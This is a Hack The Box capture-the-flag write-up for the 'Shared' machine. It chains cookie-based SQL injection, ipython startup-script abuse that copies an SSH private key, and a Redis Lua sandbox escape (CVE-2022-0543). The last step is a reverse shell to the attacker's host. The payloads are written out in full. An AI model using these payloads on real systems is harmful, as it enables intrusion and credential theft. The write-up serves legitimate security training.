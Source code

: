 ```yaml
---
layout: post
title: "HTB: Shared"
author: Andrew Cherney
date: 2023-04-26 19:52:08
tags: htb medium-box linux webapp sqli redis 
icon: "assets/icons/shared.png"
post_description: "SQLi, ipython, and Redis (oh my). This box starts off with fuzzing a store page to find an SQLi where you get the password for a user. Next that user has access to a script testing/reviewing directory which could be exploited to run commands at another user. The cherry on top is the redis sandbox escape after finding a binary which leaked the redis password."
---
```


<h1>Summary</h1>

{{ page.post_description }}

<h1>Enumeration</h1>

```bash
┌─[✗]─[raccoon@cyberraccoon-virtualbox]─[~/_hacking/HackTheBox/Retired/Shared]
└──╼ $nmap -Pn 10.10.11.172
Starting Nmap 7.92 ( https://nmap.org ) at 2023-04-26 19:59 CDT
Nmap scan report for shared.htb (10.10.11.172)
Host is up (0.050s latency).
Not shown: 997 closed tcp ports (conn-refused)
PORT    STATE SERVICE
22/tcp  open  ssh
80/tcp  open  http
443/tcp open  https
```

<h2>Port 80 - http</h2>

{% include img_link src="/img/shared/front_page" alt="front_page" ext="png" trunc=600 %}

Seems this is some basic shop with essential functionality. I toss a couple items in my cart minding the url and parameters being passed. I see that on items there is a product id, a product attribute id, the item's name passed through a rewrite parameter, and a controller parameter which denotes product or cart.

![cart page](/img/shared/cart.png)

I head over to checkout and see that the checkout button goes to **checkout.shared.htb**. Quickly add that to my etc hosts file and try to checkout. 

![checkout page](/img/shared/checkout.png)

Before I begin fuzzing this page I make note that there are two cookies for the site. The first is a custom_cart cookie which holds JSON of the items I have and their quantity. The second seems to be encrypted, and although I found [this post about encryption vulnerabilities in PrestaShop](https://www.ambionics.io/blog/prestashop-privilege-escalation) I would rather save that for a last resort. 

<h1>User as james_mason</h1>

<h2>SQLi</h2>

Now onto burp suite and this credit card input. This payment portal isn't sending information and only returns a popup when clicking pay. But the product ID and quantity of items are controlled by a cookie here, meaning in theory I can inject some code into whatever handles the cookie information. 

I make a test cookie of %7B%22test%22%3A%221111%22%7D, which is **{"test":"1111"}** in json format. The response is Not Found from the product ID. I then try the payload **{"53GG2EF8' and '1'='1":"1111"}**, which to my surprise spits out the correct information. I mess around with some syntax and stumble across <code>{"53GG2EF8' and 1=1 union select null,null,null-- -":"1111"}</code> yielding a positive result. 

I refine my payload into the following <code>{"' and 1=1 union select null,version(),null-- -":"1111"}</code> where if I change where version() is I can inject my own queries. Now I can search for tables, read those tables, and hopefully find some credentials. 

```json
{"' and 1=1 union select null,database(),null-- -":"1111"}
Result: checkout

{"' and 1=1 union select null,table_name,table_schema from information_schema.tables where table_schema='checkout'-- -":"1"} 
Result: user

{"' and 1=1 union select null,username,null from checkout.user-- -":"1111"}
Result: james_mason

{"' and 1=1 union select null,password,null from checkout.user where username = 'james_mason'-- -":"1111"}
Result: fc895d4eddc2fc12f995e18c865cf273
```

I toss that password into crackstation and got out **Soleil101**. Here's to praying ssh works. 

```bash
┌─[raccoon@cyberraccoon-virtualbox]─[~/_hacking/HackTheBox/Retired/Shared]
└──╼ $ssh james_mason@shared.htb
Last login: Thu Jul 14 14:45:22 2022 from 10.10.14.4
james_mason@shared:~$ id
uid=1000(james_mason) gid=1000(james_mason) groups=1000(james_mason),1001(developer)
james_mason@shared:~$ cat user.txt
cat: user.txt: No such file or directory
```

<h1>User as dan_smith</h1>

<h2>ipython</h2>

First thing I notice is the developer group.

```bash
james_mason@shared:/home$ find / -group developer 2>/dev/null
/opt/scripts_review
james_mason@shared:/opt$ ls -al
total 12
drwxr-xr-x  3 root root      4096 Jul 14  2022 .
drwxr-xr-x 18 root root      4096 Jul 14  2022 ..
drwxrwx---  2 root developer 4096 Jul 14  2022 scripts_review
```

Seems I can edit files in this opt directory named scripts_review. I'll keep digging till I find why this directory exists. The tldr is that ipython probably uses it, ipython is run by either dan_smith or root (probably dan as ipython is in his home directory), and I found [this advisory about running code as another user](https://github.com/advisories/GHSA-pq7m-3gw7-gq5x). If I create two directories named profile_default/startup then I can place scripts inside of the startup directory for them to run as dan_smith. 

```bash
james_mason@shared:/opt/scripts_review$ mkdir -m 777 profile_default;mkdir -m 777 profile_default/startup
james_mason@shared:/opt/scripts_review$ echo 'import os; os.system("cat ~/.ssh/id_rsa > /tmp/raccoon")' > /opt/scripts_review/profile_default/startup/foo.py
james_mason@shared:/opt/scripts_review$ cat /tmp/raccoon 
-----BEGIN OPENSSH PRIVATE KEY-----
-----END OPENSSH PRIVATE KEY-----
```

```bash
┌─[✗]─[raccoon@cyberraccoon-virtualbox]─[~/_hacking/HackTheBox/Retired/Shared]
└──╼ $chmod 400 shared.key 
┌─[raccoon@cyberraccoon-virtualbox]─[~/_hacking/HackTheBox/Retired/Shared]
└──╼ $ssh dan_smith@shared.htb -i shared.key 
Last login: Thu Jul 14 14:43:34 2022 from 10.10.14.4
dan_smith@shared:~$ id
uid=1001(dan_smith) gid=1002(dan_smith) groups=1002(dan_smith),1001(developer),1003(sysadmin)
dan_smith@shared:~$ cat user.txt
0f2a5ed8548---------------------
```

<h1>Root</h1>

<h2>Redis</h2>

In the id command we see I am a part of the sysadmin group, so round 2 for looking for files owned by a group. 

```bash
dan_smith@shared:/usr/local/bin$ find / -group sysadmin 2>/dev/null
/usr/local/bin/redis_connector_dev
dan_smith@shared:/usr/local/bin$ redis_connector_dev 
[+] Logging to redis instance using password...

INFO command result:
# Server
redis_version:6.0.15
redis_git_sha1:00000000
redis_git_dirty:0
redis_build_id:4610f4c3acf7fb25
redis_mode:standalone
os:Linux 5.10.0-16-amd64 x86_64
arch_bits:64
multiplexing_api:epoll
atomicvar_api:atomic-builtin
gcc_version:10.2.1
process_id:4403
run_id:edb16a569462be765c207c082c946cc7d62d2f41
tcp_port:6379
uptime_in_seconds:13
uptime_in_days:0
hz:10
configured_hz:10
lru_clock:4843839
executable:/usr/bin/redis-server
config_file:/etc/redis/redis.conf
io_threads_active:0
 <nil>
```

That file is a binary and I fear I need to sift through it with ghidra to determine what it does and how to exploit it. 

```bash
┌─[✗]─[raccoon@cyberraccoon-virtualbox]─[~/_hacking/HackTheBox/Retired/Shared]
└──╼ $scp -i shared.key dan_smith@shared.htb:/usr/local/bin/redis_connector_dev .
```

Before I begin to dig through this I did decide try and run this on my local machine to see what information it sends out.

```bash
┌─[raccoon@cyberraccoon-virtualbox]─[~/_hacking/HackTheBox/Retired/Shared]
└──╼ $nc -nvlp 6379
listening on [any] 6379 ...
connect to [127.0.0.1] from (UNKNOWN) [127.0.0.1] 60178
*2
$4
auth
$16
F2WHqJUz2WEz=Gqq
```

That looks suspiciously like a password at the bottom line. I'll try to login with this for the redis-cli.

```bash
dan_smith@shared:/usr/local/bin$ redis-cli -a F2WHqJUz2WEz=Gqq
Warning: Using a password with '-a' or '-u' option on the command line interface may not be safe.
127.0.0.1:6379> 
```

With an authenticated terminal in theory if this were vulnerable I could abuse it. I tossed a secret sequence of words to find a CVE: "redis rce poc github" and found [CVE-2022-0543 which is a Lua sandbox escape RCE](https://github.com/JacobEbben/CVE-2022-0543). I'll use a reverse shell to get root out of this rce.

```bash
127.0.0.1:6379> eval 'local io_l = package.loadlib("/usr/lib/x86_64-linux-gnu/liblua5.1.so.0", "luaopen_io"); local io = io_l(); local f = io.popen("bash -c \'bash -i >& /dev/tcp/10.10.14.5/7777 0>&1\'", "r"); local res = f:read("*a"); f:close(); return res' 0
```

```bash
┌─[raccoon@cyberraccoon-virtualbox]─[~/_hacking/HackTheBox/Retired/Shared]
└──╼ $nc -nvlp 7777
listening on [any] 7777 ...
connect to [10.10.14.5] from (UNKNOWN) [10.10.11.172] 59620
bash: cannot set terminal process group (5550): Inappropriate ioctl for device
bash: no job control in this shell
root@shared:/var/lib/redis# id
id
uid=0(root) gid=0(root) groups=0(root)
root@shared:/var/lib/redis# cat /root/root.txt
cat /root/root.txt
256c100c5-----------------------
```

